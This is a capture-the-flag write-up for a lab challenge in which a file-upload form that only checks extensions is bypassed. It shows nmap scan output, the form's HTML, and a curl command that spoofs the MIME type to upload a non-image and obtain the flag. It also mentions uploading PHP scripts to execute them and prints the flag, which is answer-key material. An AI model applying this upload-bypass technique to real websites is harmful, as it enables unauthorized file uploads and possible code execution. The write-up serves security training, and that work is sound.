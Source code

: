 # <span style="text-decoration: underline"> File Upload </span>

- Tags : `file` , `image` , `upload`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : orange">Medium</span>

___

## <span style="text-decoration: underline">problem</span>

During our `nmap` scans from other challenges we found out that there exists different pages

```bash
$ sudo nmap -q --script=http-csrf   192.168.1.23

Starting Nmap 7.80 ( https://nmap.org ) at 2021-10-25 21:17 CEST
Nmap scan report for 192.168.1.23
Host is up (0.00018s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.1.23
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.1.23:80/?page=signin
|     Form id: 
|     Form action: #
|     
|     Path: http://192.168.1.23:80/?page=upload
|     Form id: 
|     Form action: #
|     
|     Path: http://192.168.1.23:80/?page=member
|     Form id: 
|     Form action: #
|     
|     Path: http://192.168.1.23:80/?page=searchimg
|     Form id: 
|_    Form action: #
4242/tcp open  vrml-multi-use
MAC Address: 08:00:27:CD:44:94 (Oracle VirtualBox virtual NIC)
```

> For this write we will be intereseted on `http://192.168.1.23:80/?page=upload`

> We can also access this page using the `ADD IMAGE` button from the **home page**

When we visit the **upload** page (http://192.168.1.23:80/?page=upload) we see the following

> ![upload page](/.resources/images/upload_index.png)

We can see there is a `brows` button and there is a `UPLOAD` button. On top of all the button it says **Choose an image to upload**. From this we can guess that we have to upload an **image** file.

When we try to upload a `png` image file it shows the following message **`Your image was not uploaded.`**. It didn't work for us. When we change the extention from `png` to `jpeg` and try to upload again it shos the following message **`/tmp/img.jpeg succesfully uploaded.`**. It seems like the server do not verify the content of the file when we upload them but it verifies the extention. To prouve our theory we create an empty file and give it the name `any.jpeg` and try to upload it. It gives us the following message **`/tmp/any.jpeg succesfully uploaded.`**.

> This is is typically the situation for website that shows the raw image that you upload them. In many occasion in the old days we could find website that let you upload images and you could see those images using the url of the image in `raw` format. By `raw` i mean it is not treated or modified nor it is shown using a program. it is shows directly from the uploaded directory. In this kind of situation hackers used to upload `php` scripts (because most of those sites ware made using `php` programs) and as the name of the file was not modified, to execute the uploaded `php` scripts only by eccessing the url.

> In our case it seems like the extention of the file has to be `jpeg` or `jpg` to upload it through the means they have given us.

When we inspect the `form` for upload we find the following `html` code

```html
<form enctype="multipart/form-data" action="#" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<input name="uploaded" type="file"><br>
	<br>
	<input type="submit" name="Upload" value="Upload">
</form>
```

Where we see that the form uses the following fields do the `POST` request

|Key|Value|
|---|-----|
|MAX_FILE_SIZE|100000|
|uploaded| [Our "image" file that we want to upload]|
|Upload|Upload|

> Sadly we can not modify the `input` type to `image` so that we can **try** to fool the server to think the uploaded element is an image

## <span style="text-decoration: underline">Solution</span>

Using curl we can easily upload a file with a the `type` name we want. Here is our command to do that

```bash
url -s -F "uploaded=@img.png;type=image/jpeg" -F Upload=Upload "http://192.168.1.23/?page=upload" | grep flag
```
|Option|Description|
|--|--|
|`-s` | Silent|
|`-F`|( — form) option, which will add `enctype=”multipart/form-data”` to the request.|

this gives us the following result

```bash
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/img.png succesfully uploaded.</pre>
```

> We use the `;type=image/jpeg` to tell the server that this has a file type of an `image` 
> After some playing arround we can see that the `MAX_FILE_SIZE` parameter is not needed.

# <span style="text-decoration: underline">How to avoid the problem</span>
This kind of problem could be evoided by not only checking the file `extention` but also by checking the type of file by looking inside the file's content.


# <span style="text-decoration: underline">Flag

```text
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

# <span style="text-decoration: underline">Resources</span>

- [Upload files with CURL](https://medium.com/@petehouston/upload-files-with-curl-93064dcccc76)
- [File type using CURL](https://stackoverflow.com/a/4074949/4440716)
- [Send a file via POST with cURL and PHP](https://blog.derakkilgo.com/2009/06/07/send-a-file-via-post-with-curl-and-php/)
